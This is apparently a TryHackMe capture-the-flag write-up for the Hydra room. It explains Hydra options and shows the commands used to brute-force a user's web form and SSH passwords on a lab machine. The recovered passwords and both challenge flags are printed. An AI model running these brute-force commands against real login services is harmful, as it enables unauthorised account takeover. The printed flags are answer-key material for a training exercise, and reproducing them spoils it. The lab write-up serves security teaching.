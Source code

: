 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/hydra/","created":"2024-11-04T16:15:42.215-05:00","updated":"2025-03-12T00:21:28.289-04:00"}
---
```


# Task 2 - Using Hydra

| Option              | Description                                                                            |
| ------------------- | -------------------------------------------------------------------------------------- |
| -l                  | specifies the (SSH) username for login                                                 |
| -P                  | indicates a list of passwords                                                          |
| -t                  | sets the number of threads to spawn                                                    |
| http-post-form      | the type of the form is POST                                                           |
| path              | the login page URL, for example, login.php                                             |
| login_credentials | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| invalid_response  | part of the response when the login fails                                              |
| -V                  | verbose output for every attempt                                                       |

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

 ![Exported image](/img/user/TryHackMe/THM_Images/6acea8dcaa459a0a51bc6bac7a46278c.png)  

Checking the page source tells us that its using a "POST" method as the request type

 ![Exported image](/img/user/TryHackMe/THM_Images/4caa7657ba57ccde9af7565786a80179.png)

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```
   
![Exported image](/img/user/TryHackMe/THM_Images/d3bfcde61619b5012049d3a2a6e334f6.png)  

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.

![Exported image](/img/user/TryHackMe/THM_Images/8b26c6071413b8325dd2a902f06fd47d.png)  

> [!Success] Answer
> THM{2673a7dd116de68e85c48ec0b1f2612e}

> [!Question]
> **Use Hydra to bruteforce molly's SSH password. What is flag 2?** 

Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```

![Exported image](/img/user/TryHackMe/THM_Images/b63f779eaf9859ed2e22f534b6bea215.png)  

Then SSH'd into molly's machine to get the flag using the password, butterfly.

![Exported image](/img/user/TryHackMe/THM_Images/12d9adee146e29ab4487aaf9bc440b49.png)  

> [!Success] Answer
> THM{c8eeb0468febbadea859baeb33b2541b}
